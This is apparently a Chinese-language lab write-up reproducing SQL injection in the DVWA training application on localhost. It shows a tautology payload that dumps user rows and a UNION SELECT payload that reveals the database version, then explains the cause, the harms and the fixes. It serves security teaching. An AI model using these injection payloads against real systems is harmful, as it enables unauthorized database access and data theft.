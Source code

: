 # 🧪 DVWA SQL 注入（SQLi）漏洞复现报告

> 本报告复现了 DVWA 中的 SQL 注入漏洞，通过构造恶意 SQL 语句获取数据库信息，演示其攻击原理与危害，并提出修复建议。

---

## 🧾 一、实验信息

- 📅 实验时间：2025 年 7 月 9 日  
- 💻 实验系统：Kali Linux（物理机）  
- 🌐 靶场平台：DVWA（Damn Vulnerable Web Application）  
- 🔒 漏洞类型：SQL 注入（SQL Injection）  
- 🔧 难度设置：Low

---

## 📌 二、漏洞页面路径

```text
http://localhost/dvwa/vulnerabilities/sqli/
```

该页面存在用户 ID 查询功能，输入框未对用户输入进行过滤。

## 🧪 三、漏洞复现过程

### 1️⃣ 正常请求示例：

输入：

```
1
```

返回：

```
First name: admin
Surname: admin
```

### 2️⃣ 注入测试 payload：

```
1' or '1'='1
```

✅ 效果：返回多个用户信息，证明注入成功。

📸 截图见下文：`screenshots/sqli_success.png`

<div align="center">   <img src="screenshots/sqli_success.png" width="400"/> </div>

### 3️⃣ 构造信息泄露型 payload（获取数据库版本）：

```
1' union select 1, @@version #
```

✅ 效果：可回显数据库版本信息。

📸 截图：`screenshots/db_dump.png`

<div align="center">   <img src="screenshots/db_dump.png" width="400"/> </div>

## 💡 四、漏洞原理分析

SQL 注入是由于程序直接将用户输入拼接进 SQL 查询语句，攻击者可构造恶意语句破坏原有逻辑，从而读取、修改、删除数据库中的数据。

## 🎯 五、危害评估

- 获取用户登录信息、密码 hash
- 绕过身份验证
- 删库、数据泄露
- 可作为进一步提权与持久化入口

## 🛡 六、修复建议

- 使用 **预处理语句 / 参数化查询**（如 PDO、mysqli）
- 严格验证与过滤用户输入（白名单机制）
- 错误信息隐藏，防止信息泄露
- 对于返回内容使用 `htmlspecialchars` 转义

## 📚 七、参考链接

- OWASP SQL Injection
- [DVWA GitHub](https://github.com/digininja/DVWA)
